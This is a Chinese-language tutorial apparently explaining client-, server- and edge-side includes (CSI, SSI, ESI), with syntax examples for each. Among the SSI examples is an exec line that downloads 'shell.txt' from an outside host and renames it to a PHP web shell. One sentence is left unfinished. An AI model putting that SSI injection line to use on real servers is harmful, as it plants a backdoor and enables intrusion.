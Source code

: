 **CSI**(Client Side Includes)
通过iframe、javascript、ajax等方式将另外一个页面的内容动态包含进来.这样来实现动态化.

```
<iframe src='http://examle/index.php' border='0'></iframe>
 ```
该方法有一个缺点，客户端缓存问题可能导致更新后不能及时生效！要解决不能及时生效的问题,

**SSI**(Server Side Includes)
通过注释行SSI命令加载不同模块，构建为html，实现整个网站的内容更新.通过SSI调用各模块的对应文件，最后组装为html页面，需要服务器模块支持(具体配置本文不做详述)，比如：apache服务器需要开启mod_include模块。
*Commands that include another file (this tutorial)
*Commands that display dates and time from the server
*Commands that display file information
```
<!--#exec cmd="ls" -->
<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
<!--#config errmsg="File not found, informs users and password"-->
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DOCUMENT_NAME" -->
<!--#fsize file="ssi.shtml" -->
<!--#include file="example.php"-->
```
[Click me](http://www.htmlgoodies.com/beyond/webmaster/article.php/3473341/SSI-The-Include-Command.htm)

**ESI**(Edge Side Includes)
通过使用简单的标记语言来对那些可以加速和不能加速的网页中的内容片断进行描述，每个网页都被划分成不同的小部分分别赋予不同的缓存控制 策略，使Cache服务器可以根据这些策略在将完整的网页发送给用户之前将不同的小部分动态地组合在一起。通过这种控制，可以有效地减少从服务器抓取整个页面的次数，而只用从原服务器中提取少量的不能缓存的片断，因此可以有效降低原服务器的负载，同时提高用户访问的响应时间。与SSI不同的是，ESI多在缓存服务器或代理服务器上执行！
ESI是由Oracle公司和Akamai Technologies公司制定规格，Akamai公司提供对应的信息传送的服务。10多年过去了，还是只属于W3C note。

ESI有7条语句。
1. include
For example,
```
<esi:include src="http://example.com/1.html" alt="http://bak.example.com/2.html" onerror="continue"/>
<esi:include src="http://example.com/ search?query=$(QUERY_STRING{query})"/>
```


2. inline
```
<esi:inline name="URI" fetchable="{yes | no}">
    fragment to be stored within an ESI processor
</esi:inline>
```

3. choose | when | otherwise
```
<esi:choose>
    <esi:when test="...">
        ...
    </esi:when>
    <esi:when test="...">
        ...
    </esi:when>
    <esi:otherwise>
        ...
    </esi:otherwise>
</esi:choose>
```

4. try | attempt | except
```
<esi:try>
    <esi:attempt>
        ...
    </esi:attempt>
    <esi:except>
        ...
    </esi:except>
</esi:try>
```

5. comment
```
<esi:comment text="..." />
```

6. remove
```
<esi:remove> ... </esi:remove>
```

7. vars
```
<esi:vars>
  <img src="http://www.example.com/$(HTTP_COOKIE{type})/hello.gif"/ >
</esi:vars>
```

8. <!--esi ...-->
```<!--esi  
  <p><esi:vars>Hello, $(HTTP_COOKIE{name})!</esi:vars></p>
-->
````

